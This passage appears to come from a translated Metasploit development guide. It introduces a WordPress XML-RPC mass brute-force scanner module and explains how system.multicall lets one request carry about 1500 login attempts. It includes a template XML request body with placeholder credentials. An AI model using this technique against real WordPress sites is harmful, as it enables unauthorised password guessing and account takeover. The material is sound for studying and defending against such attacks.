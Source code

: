 +   使用`reload_all`重新加载所有模块

+   如果您的模块以前已加载并对其进行了更改，只需使用`reload`，但您必须使用该模块，换句话说，`use [YOUR MODULE]`

**注意：** 了解官方 Metasploit 开发文档**（**[`www.rubydoc.info/github/rapid7/metasploit-framework/`](http://www.rubydoc.info/github/rapid7/metasploit-framework/) **）**非常重要

* * *

# 辅助模块

# 辅助模块

## 扫描器

基本扫描模块

### WordPress XML-RPC 大规模暴力破解

WordPress CMS 框架支持 XML-RPC 服务与框架中几乎所有功能进行交互。一些功能需要身份验证。主要问题在于您可以在同一请求中多次进行身份验证。WordPress 接受大约 1788 行的 XML 请求，这使我们能够在单个请求中发送大量的登录尝试。这有多棒？让我解释一下。

想象一下，你必须暴力破解一个用户的 6000 个密码？在传���的暴力破解技术中，你需要发送多少请求？是 6000 个请求。使用我们的模块只需要 4 个请求，如果使用默认的 CHUNKSIZE，即每个请求 1500 个密码！！！没有多线程，即使你在传统的暴力破解技术中使用多线程，你也只会发送少量的并行请求。

```
<?xml version="1.0"?>
<methodCall>
<methodName>system.multicall</methodName>
<params>
 <param><value><array><data>

  <value><struct>
  <member>
    <name>methodName</name>
    <value><string>wp.getUsersBlogs</string></value>
  </member>
  <member>
    <name>params</name><value><array><data>
     <value><array><data>
      <value><string>"USER #1"</string></value>
      <value><string>"PASS #1"</string></value>
     </data></array></value>
    </data></array></value>
  </member>

  ...Snippet...

  <value><struct>
  <member>
    <name>methodName</name>
    <value><string>wp.getUsersBlogs</string></value>
  </member>
  <member>
    <name>params</name><value><array><data>
     <value><array><data>
      <value><string>"USER #1"</string></value>
      <value><string>"PASS #N"</string></value>
     </data></array></value>
    </data></array></value>
  </member>

</params>
</methodCall> 
```